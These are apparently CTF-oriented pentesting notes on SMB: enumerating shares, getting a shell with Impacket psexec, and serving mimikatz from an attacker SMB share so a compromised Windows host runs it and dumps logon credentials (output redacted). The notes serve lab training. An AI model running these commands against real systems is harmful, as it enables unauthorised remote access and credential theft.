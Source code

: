 # SMB - Enumeration

When completing boot2root challenges, if SMB is open (Port 139 & 445) it is reccomended to see if the user can list SMB shares unauthenticated.

The below commands are different ways in which a user can interact with SMB shares:
- smbmap -H 10.10.10.10
- smbclient -L 10.0.0.10

If it asks for a password, just simple hit enter and that will confirm if authentication is required or if the user can view the shares unauthenticated.
If the user has read/write access to the share, it is then reccomended to connect to the share by running the below command:
```
smbclient //10.10.10.10/sharename
```

# SMB - Impacket Psexec

PsExec is a portable tool developed by Microsoft that lets a user run processes remotely using user credentials on the system.

If a user has compromised a user account and has found the password of the account, the user can then psexec into the machine if there is no other ways of entry. (Example: SSH, RDP, WinRM and etc is turned off).

This method requires port 445 to be open, if it is not then the user may have to port forward the port to a listening state.

The command the user should run:
```
/usr/share/doc/python-impacket/examples/psexec.py hacker@10.10.10.10
```

The user will be prompted for hacker's password: hacker

An interactive shell should be spawned as the user hacker.

# Impacket's SMBServer (For File Transfer)

Impacket's SMBServer a tool to remotely transfer, capture hashes, use executables and more.

This is how a user can capture hashes on a system once compromiosed. 

On a Linux machine the user should navigate to: 
```
cd /usr/share/windows-binaries
```

Identify the mimikatz executable is present then run Impacket's SMBServer:
```
python /usr/share/doc/python-impacket/examples/smbserver.py share .
```

On the compromised Windows system run:
```
\\10.10.14.25\a\mimikatz.exe

  .#####.   mimikatz 2.1.1 (x64) built on Mar 29 2017 23:20:11
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 311317 (00000000:0004c015)
Session           : Interactive from 1
User Name         : 
Domain            : 
Logon Server      : 
Logon Time        : 
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : 
	 * Domain   : 
	 * NTLM     : 
	 * SHA1     : 
	 * DPAPI    : 
```
Please note, all the above output has been redacted.

